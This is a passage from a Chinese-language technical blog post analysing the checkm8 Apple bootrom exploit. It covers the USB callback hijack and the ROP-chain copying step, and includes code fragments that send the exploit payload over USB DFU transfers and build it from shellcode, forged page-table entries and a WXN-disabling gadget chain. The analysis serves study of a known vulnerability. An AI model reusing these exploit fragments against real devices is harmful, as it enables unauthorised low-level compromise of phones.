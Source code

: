 在释放usb_device_io_request对象之前，会调用usb_device_io_request::callback回调函数控制流被劫持到t8010_nop_gadget。

```c
void usb_core_complete_endpoint_io (struct usb_device_io_request *io_req){
	if(io_req->callback) {
		io_req->callback(io_req);
	}
    
	free(io_req);
	io_req = NULL;
}
```

# ROP过程分析

## 拷贝ROP链

向手机发送bmRequest=0x21，bRequest=1的数据传输Transaction，开始DFU下载过程，payload最终会拷贝到INSECURE_MEMORY区域。

```c
for i in range(0, len(payload), 0x800):
    libusb1_no_error_ctrl_transfer(device, 0x21, 1, 0, 0, payload[i:i+0x800], 100)
```

payload被拆分成为2次Transaction进行传输，每个Transaction分别写入发送2048字节和352字节。

![发送payload抓包.png](/assets/posts/2025-05-25-深入分析苹果设备-checkm8-漏洞/%E5%8F%91%E9%80%81payload%E6%8A%93%E5%8C%85.png)

payload的构造函数如下，包含了shellcode、伪造页表项、关闭WXN的指令片段、ROP链。

```python
def payload(cpid):
	return struct.pack('<1024sQ504x2Q496s32x', t8010_shellcode, \
	0x1000006A5, 0x60000180000625, 0x1800006A5, \
	prepare_shellcode('t8010_t8011_disable_wxn_arm64')) \
	+ usb_rop_callbacks(0x1800B0800, t8010_func_gadget, t8010_callbacks)
```
